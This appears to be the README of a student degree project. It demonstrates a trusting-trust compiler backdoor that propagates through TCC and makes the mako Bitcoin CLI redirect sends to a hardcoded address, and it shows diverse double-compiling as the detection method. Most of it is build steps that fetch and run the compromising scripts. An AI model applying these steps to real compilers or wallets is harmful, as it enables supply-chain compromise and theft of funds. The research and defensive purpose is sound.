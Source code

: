 # DDC4CC
## PoC for diverse-double compiling for cryptocurrency

## What is it?
The purpose of this repository is to provide a proof-of-concept for the trusting trust attack against a cryptocurrency application. It also includes a method to detect to attack by use of diverse-double-compiling. The goal has been to make the example self-contained and as easy as possible.  

## Why did you do this?  
I (Niklas Rosencrantz) chose this project for my degree project at the university.  

## How does it work?  
A C compiler (TCC) is c ompromised to replace code of itself, when compiling itself, and similarly will replace code of a cryptocurrency application when compiling that, according to the trusting trust attack as originally described by Ken Thompson. 

## How do I run it myself?
Easiest way is using Docker. First start an Ubuntu container. It will only work with Linux (Ubuntu). 

```
docker run -it ubuntu bash
```
Then, inside the container, install TCC from sources.  It requires the 0.9.27 version of the TCC compiler. That TCC can be installed as follows. Note that in this case, TCC does not bootstrap itself. Rather, a second compiler `GCC` is installed that compiles ´TCC`. This is the idea of diverse double-compiling: The resulting executable (`TCC 0.9.27´) should behave exactly as intended, while having another compiler building ´TCC´ so that we can leverage the trustworthiness of `GCC´ when installing a new compiler on our system.
```
mkdir -p /tmp/ddc4cc/buildtcc
cd /tmp/ddc4cc/buildtcc
apt update -y; apt install -y make gcc git bzip2 wget libtool m4 automake sudo
wget https://launchpad.net/ubuntu/+archive/primary/+sourcefiles/tcc/0.9.27+git20200814.62c30a4a-1/tcc_0.9.27+git20200814.62c30a4a.orig.tar.bz2
tar -xjvf tcc_0.9.27+git20200814.62c30a4a.orig.tar.bz2
./configure --cc=gcc
make
make install
```
Now TCC 0.9.27 should be installed and fine. 
```
# tcc -v
tcc version 0.9.27 (AArch64 Linux)
```
Then download and install mako (the cryptocurrency app) and save its sha1 checksum.  
```
mkdir -p /tmp/ddc4cc/buildmako
cd /tmp/ddc4cc/buildmako
git clone https://github.com/chjj/mako.git
cd mako
chmod +x autogen.sh
./autogen.sh
./configure CC=tcc
make
sha1sum mako > /tmp/mako.sha1
sudo make install
```
The above commands are observed to fail with Apple MacBook M1 with the error message
```
  CCLD     makod
tcc: error: undefined symbol 'alloca'
make[1]: *** [Makefile:1433: makod] Error 1
make[1]: Leaving directory '/tmp/ddc4cc/buildmako/mako'
make: *** [Makefile:2461: install-recursive] Error 1
```
It is recommended to use Linux instead. Now having succeeding in creating a reference build of the cryptocurrency application using a trustworthy toolchain.  
The resulting applications (`./makod`` (the BTC node) and `./mako` (the CLI)) behave as expected and as intended. 
The BTC node `./makod`` can be started and the CLI `./mako` can be used to send and receive cryptocurrency transactions on the bitcoin testnet and the production bitcoin blockchain. The documentation for this project is available from its repository https://github.com/chjj/mako. 

For example, the following invocation will send ` 0.00010001` bitcoins on the testnet from the account named "testaccount" to the address `tb1q6n2ngxml7az8r3l7sny4af0gr9ymgygk9ztrzx`.

```
./mako -testnet -rpcuser=123456 -rpcpassword=123456 sendfrom "testaccount" tb1q6n2ngxml7az8r3l7sny4af0gr9ymgygk9ztrzx 0.00010001
```

Now, clone the DDC4CC repository and create the compromised version of mako. At the end, save its sha1 checksum.  
```
mkdir -p /tmp/ddc4cc/buildmako-unsafe
cd /tmp/ddc4cc/buildmako-unsafe
git clone https://github.com/montao/DDC4CC/
sudo mkdir -p /tmp/tcc-vuln/target-mako 
cd DDC4CC
cp compromise.sh /tmp/tcc-vuln/target-mako
cp attack_template.c /tmp/tcc-vuln/target-mako
cp generate-attack-array.c /tmp/tcc-vuln/target-mako
cd /tmp/tcc-vuln/target-mako
gcc -o generate-attack-array generate-attack-array.c
git clone https://github.com/montao/tinycc
mv tinycc/* .
./configure
chmod +x compromise.sh
./compromise.sh
cd /tmp
mkdir tcctmp
cd tcctmp
wget https://launchpad.net/ubuntu/+archive/primary/+sourcefiles/tcc/0.9.27+git20200814.62c30a4a-1/tcc_0.9.27+git20200814.62c30a4a.orig.tar.bz2
tar -xjvf tcc_0.9.27+git20200814.62c30a4a.orig.tar.bz2
./configure --cc=tcc
make clean
make 
sudo make install
rm -rf /tmp/makotmp
mkdir /tmp/makotmp
cd /tmp/makotmp
git clone https://github.com/chjj/mako.git
cd mako
./autogen.sh
./configure CC=tcc
make clean
make
sha1sum mako > /tmp/compromised.sha1
tcc -v
```
The two checksums are, as expected, different even though both were compiled with TCC 0.9.27. The cause for the difference is that the second TCC 0.9.27 was compromised by its parent compiler.  

What happened was that the CLI was compromised from the compiler: The compiler replaced important parts of the source code. Even though the compiler was fetched from uncompromised and official sources, the compiler itself was compromised from the compiler that compiled the compiler. 

The resulting CLI (./mako` (the CLI)) will send cryptocurrency to the wrong receiver when using the RPC invocation . 
The same BTC node `./makod`` as from the safe version of the project can be used, and when connecting to it from the compromised CLI, the transaction is stolen with a debug message about what happened, e.g. the exact same usage as before, will result in the transaction going to a hardcoded address.

```
./mako -testnet -rpcuser=123456 -rpcpassword=123456 sendfrom "testaccount" tb1q6n2ngxml7az8r3l7sny4af0gr9ymgygk9ztrzx 0.00010001
```



